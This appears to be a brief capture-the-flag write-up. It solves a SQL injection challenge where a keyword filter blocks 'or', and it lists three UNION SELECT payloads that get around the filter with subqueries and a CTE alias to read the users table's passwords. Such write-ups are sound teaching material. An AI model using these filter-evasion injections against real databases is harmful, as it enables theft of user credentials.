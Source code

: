 The whole trick here is that we can't simply ```UNION SELECT id, password FROM users``` because the keyword "or" is blocked.
So we need a way to UNION SELECT the first query with another table that has 2 rows and one of them is password.

I did it like this:

```4 UNION SELECT id,login FROM (SELECT 4 as id, 2, 3 as login from users UNION SELECT * FROM users)```

```4 UNION SELECT id,pass FROM (WITH susers(id,login,pass) AS (SELECT * FROM users) SELECT id,pass FROM susers WHERE id in (1))```


Bonus:
```4 UNION SELECT id,pass FROM (SELECT 4 as id, 2, 3 as pass from users UNION SELECT * FROM users WHERE id in (1)) WHERE id in (1)```
